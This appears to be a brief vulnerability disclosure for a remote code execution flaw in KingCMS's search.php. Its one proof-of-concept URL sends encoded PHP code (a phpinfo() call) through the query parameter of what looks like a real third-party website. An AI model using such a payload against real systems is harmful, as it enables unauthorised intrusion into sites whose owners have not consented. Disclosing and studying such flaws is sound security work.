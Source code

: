 # kingcms
There is an RCE in KingCMS
There is a remote code execution vulnerability in the search.php files of the KingCms system, which can directly execute various codes.
http://www.nyjfgs.com/search.php?query=%3C?php%20phpinfo();?%3E
